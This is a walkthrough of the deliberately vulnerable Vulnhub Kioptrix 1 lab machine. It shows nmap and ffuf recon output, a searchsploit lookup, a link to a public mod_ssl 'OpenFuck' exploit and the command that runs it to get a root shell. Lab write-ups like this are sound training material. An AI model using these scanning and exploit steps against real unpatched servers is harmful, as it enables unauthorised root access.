 ```yaml
---
layout: post
title: Vulnhub Kioptrix 1 Walkthrough
categories: [Vulnhub]
tags: [ linux]
toc: true
image:
  path: "/assets/images/kioptrix1/vuln.png"
  alt: Vulnhub Kioptrix1
---
```



Kioptrix 1 was an easy box to root , using kernel exploit and getting foothold by abusing an old mod ssl 

## Recon

nmap scan show 5 ports open : 

* ssh : 22
* 80: http
* 111 : rpcbind
* 443 : https
* 139 : netbios-ssn

```bash

root@kali nmap -p- -sC -sV 192.168.1.104 --min-rate=10000 -v

PORT    STATE SERVICE     VERSION
22/tcp  open  ssh         OpenSSH 2.9p2 (protocol 1.99)
| ssh-hostkey: 
|   1024 b8:74:6c:db:fd:8b:e6:66:e9:2a:2b:df:5e:6f:64:86 (RSA1)
|   1024 8f:8e:5b:81:ed:21:ab:c1:80:e1:57:a3:3c:85:c4:71 (DSA)
|_  1024 ed:4e:a9:4a:06:14:ff:15:14:ce:da:3a:80:db:e2:81 (RSA)
|_sshv1: Server supports SSHv1
80/tcp  open  http        Apache httpd 1.3.20 ((Unix)  (Red-Hat/Linux) mod_ssl/2.8.4 OpenSSL/0.9.6b)
| http-methods: 
|   Supported Methods: GET HEAD OPTIONS TRACE
|_  Potentially risky methods: TRACE
|_http-server-header: Apache/1.3.20 (Unix)  (Red-Hat/Linux) mod_ssl/2.8.4 OpenSSL/0.9.6b
|_http-title: Test Page for the Apache Web Server on Red Hat Linux
111/tcp open  rpcbind     2 (RPC #100000)
| rpcinfo: 
|   program version    port/proto  service
|   100000  2            111/tcp   rpcbind
|   100000  2            111/udp   rpcbind
|   100024  1           1024/tcp   status
|_  100024  1           1024/udp   status
139/tcp open  netbios-ssn Samba smbd (workgroup: MYGROUP)
443/tcp open  ssl/https   Apache/1.3.20 (Unix)  (Red-Hat/Linux) mod_ssl/2.8.4 OpenSSL/0.9.6b

```
## Port 80

i'll start with port 80 because web has a large attacking surface 

![http80](/assets/images/kioptrix1/index.png)

ffuzing the web using fuff didn't yiel much interesting results , just static pages :

```bash

ffuf -u http://192.168.1.104/FUZZ -w /oscp/wl/raft-medium-words.txt -mc all -ac -c -v

[Status: 301, Size: 293, Words: 19, Lines: 10, Duration: 35ms]
| URL | http://192.168.1.104/usage
    * FUZZ: usage

[Status: 301, Size: 294, Words: 19, Lines: 10, Duration: 151ms]
| URL | http://192.168.1.104/manual
    * FUZZ: manual

[Status: 301, Size: 292, Words: 19, Lines: 10, Duration: 118ms]
| URL | http://192.168.1.104/mrtg

```

Navigating to http://192.168.1.104/usage gives us a dashboard for usage statistics :

![http80](/assets/images/kioptrix1/usage.png)

## Port 443

I shifted my focus to port 443 , the first thing i noticed in nmap result was the old mod ssl version 

```bash
 mod_ssl/2.8.4
```

so by using searchsploit we can see a existing exploit :

```bash

searchsploit mod ssl

Apache mod_ssl < 2.8.7 OpenSSL - 'OpenFuckV2.c' Remote Buffer Overflow (2)                                                           | unix/remote/47080.c

```
## Root Shell
But by searching around i found an updated version in github that gives us a root shell directly :

```bash

https://github.com/heltonWernik/OpenLuck
```

 I'll follow the steps mentionned in the page and choose 0x6b target for redhat as shown in the exploit target list : 

```bash
./OpenFuck 0x6b 192.168.1.104 443

[+] Attached to 6505
[+] Waiting for signal
[+] Signal caught
[+] Shellcode placed at 0x4001189d
[+] Now wait for suid shell...
whoami
root

```

